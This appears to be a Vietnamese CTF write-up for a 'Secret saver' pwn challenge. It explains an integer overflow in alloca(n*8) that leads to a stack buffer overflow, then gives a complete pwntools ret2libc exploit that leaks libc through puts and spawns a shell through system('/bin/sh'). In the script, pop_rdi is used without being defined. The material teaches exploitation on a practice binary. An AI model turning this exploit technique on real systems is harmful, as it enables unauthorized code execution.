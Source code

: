 # IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  void *v4; // rsp
  unsigned __int64 v6; // [rsp+8h] [rbp-10h] BYREF
  unsigned __int64 *v7; // [rsp+10h] [rbp-8h]

  init();
  puts("Secret saver!");
  puts("How long is your secret?");
  printf("> ");
  __isoc99_scanf("%lu", &v6);
  v3 = 16 * ((8 * v6 + 23) / 0x10);
  while ( &v6 != (unsigned __int64 *)((char *)&v6 - (v3 & 0xFFFFFFFFFFFFF000LL)) )
    ;
  v4 = alloca(v3 & 0xFFF);
  if ( (v3 & 0xFFF) != 0 )
    *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8) = *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8);
  v7 = &v6;
  printf("Enter your secret: ");
  read_str((__int64)v7, v6);
  return 0;
}
```  

# Source 
```
#include <stdio.h>
#include <alloca.h>
#include <unistd.h>

void init()
{
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

void read_str(char *buffer, unsigned long int n)
{
	char c;
	unsigned long int i = 0;
	while (i < n)
	{
		read(0, &c, 1);
		if (c == '\n')
			break;
		buffer[i] = c;
		i++;
	}
	buffer[i] = '\0';
}

int main()
{
	char *buffer;
	unsigned long int n;

	init();

	puts("Secret saver!");
	puts("How long is your secret?");
	printf("> ");
	scanf("%lu", &n);

	buffer = alloca(n*8);
	printf("Enter your secret: ");
	read_str(buffer, n);
}
```

* khi nhìn vào source ta thấy có hàm alloca() thì hàm này có chức năng tương tự như malloc là cấp phát bộ nhớ nhưng thay vì nằm trên heap như malloc thì alloca cấp phát bộ nhớ trên stack. ví dụ alloca(16) sẽ cấp phát 16 byte  
* khi nhìn vào source code ta thấy được ```alloca(n*8)``` thì ta phát hiện ở đây là lỗi IOF, em sẽ lấy một ví dụ sau.

##### ví dụ
* ta có kiểu int có phạm vi từ 0 đến 100, nghĩa là khi thực thi các phép + - * / thì kết quả vẫn nằm trong phạm vi 0 đến 100.
* ta sẽ chạy thử trên chương trình sau
```c
#include <stdio.h>

int main()
{
    int a;
    scanf("%d", &a);
    printf("%d", a * 8);
}
```

phạm vi của int là ```-2,147,483,648 tới 2,147,483,647``` và em tính toán ```2147483647/8 = 268435455.875```, em thử với giá trị làm trò xuống ```268435455``` thì ```Output: 2147483640 ``` oke còn trong phạm vi, nhưng nếu e làm tròn lên ```268435456``` thì ```Output: -2147483648```, ta đã tràn phạm vi nên nó thành só âm =)))
* vậy nếu bây giờ, em thử khai báo một biến là long, sau đó gán biểu thức ```a*8``` thì kết quả như thế nào
```c
#include <stdio.h>
int main()
{
    int a;
    scanf("%d", &a);
    long b = a * 8;
    printf("%ld", b);
}
```
```input: 268435456 --- output: -2147483648``` =))) vậy qua phép thử trên và nhiều lần lập trình thì em hiểu là ```a*8``` nghĩa là ```(int) * (int) ```, thì ngôn ngữ C nó sẽ tự ép kiểu theo kiểu dữ liệu có phạm vi lớn nhất trong phép tính, trong trường hợp ``` int * int ``` thì nó sẽ tự hiểu là giá trị sau khi tính sẽ trả về dữ liệu int. Ví dụ trường hợp ```(int) * (long)``` thì giá trị trả về là long.
> từ những phép thử trên ta thấy lỗi IOF ở ```alloca(n * 8) ```
nghĩa là nếu ta nhập n sao cho n * 8 nó tràn ra phạm vi của unsigned long int để trả về giá trị nhỏ, hàm alloca sẽ cấp phát giá trị nhỏ đó và ta vẫn có thể nhập được số lượng kí tự lớn để BOF. 

# Thực thi
* Ở đây mỗi giá trị khác nhau cho ta những payload khác nhau về offset (giá trị nhỏ nhất là 0x2000000000000000), ở đây em chọn 0x2000000000000001
* Chạy thử debug thì ta đã đúng, khi ta đã cấp phát bộ nhớ nhỏ và số lượng kí tự nhập vào lớn  
![image](https://user-images.githubusercontent.com/111769169/222918324-d23d04d7-6676-4b7d-8b7b-77182c08da22.png)  
* việc sau đó là ret2libc
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript='''
                    b*main+267
                    c
                    ''')
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()
    input()
    
    #################
    ### leak libc ###
    #################
    r.sendlineafter(b"> ", b'2305843009213693953')
    payload = b'a' * 40 + p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts']) + p64(exe.sym['main'])
    r.sendlineafter(b'secret: ', payload)

    ######################
    ### tinh base libc ###
    ######################
    leak = u64(r.recvline(keepends=False) + b'\0\0')
    log.info("leak libc: " + hex(leak))
    libc.address = leak - 0x783a0
    log.info("base libc: " + hex(libc.address))
    r.sendlineafter(b"> ", b'2305843009213693953')

    #################
    ### tao shell ###
    #################
    payload = b'a' * 40
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    r.sendlineafter(b'secret: ', payload)

    r.interactive()


if __name__ == "__main__":
    main()
```
